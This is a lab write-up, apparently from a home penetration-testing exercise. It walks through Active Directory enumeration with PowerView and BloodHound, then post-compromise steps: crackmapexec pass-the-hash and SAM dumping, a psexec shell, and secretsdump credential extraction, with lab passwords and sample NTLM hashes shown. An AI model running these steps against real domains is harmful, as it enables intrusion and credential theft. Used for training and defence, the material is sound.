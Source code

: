 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal W10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

on W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```


![bloodhound.zip](Screenshots/create_bloodhound_zip.png)

move file.zip first onto baremetal Desktop then to kali VM.

import data :: enjoy

## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**

`apt install crackmapexec`
`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1'`
![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)

`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam`

![PTH_sam](Screenshots/PTH_sam.png)

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206`


![psexec_loud_shell](Screenshots/psexec_shell_noisy.png)

### **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206`


![secrets](Screenshots/secrets_dump.png)

### **NTLM hash Example:**

```Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: ```

```Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::```

```Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::```

***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

---

## **References:**

```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```
